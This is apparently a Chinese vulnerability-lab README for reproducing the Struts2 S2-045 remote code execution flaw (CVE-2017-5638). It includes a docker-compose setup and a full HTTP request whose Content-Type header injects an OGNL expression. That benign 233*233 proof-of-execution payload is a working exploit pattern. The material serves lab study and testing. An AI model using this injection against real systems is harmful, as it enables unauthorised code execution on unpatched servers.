

# S2-045 远程代码执行漏洞（CVE-2017-5638）

影响版本: Struts 2.3.5 - Struts 2.3.31, Struts 2.5 - Struts 2.5.10

漏洞详情:

 - http://struts.apache.org/docs/s2-045.html
 - https://blog.csdn.net/u011721501/article/details/60768657
 - https://paper.seebug.org/247/

## 漏洞环境

执行如下命令启动struts2 2.3.30：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到上传页面。

## 漏洞复现

直接发送如下数据包，可见`233*233`已成功执行：

```
POST / HTTP/1.1
Host: localhost:8080
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.8,es;q=0.6
Connection: close
Content-Length: 0
Content-Type: %{#context['com.opensymphony.xwork2.dispatcher.HttpServletResponse'].addHeader('vulhub',233*233)}.multipart/form-data


```


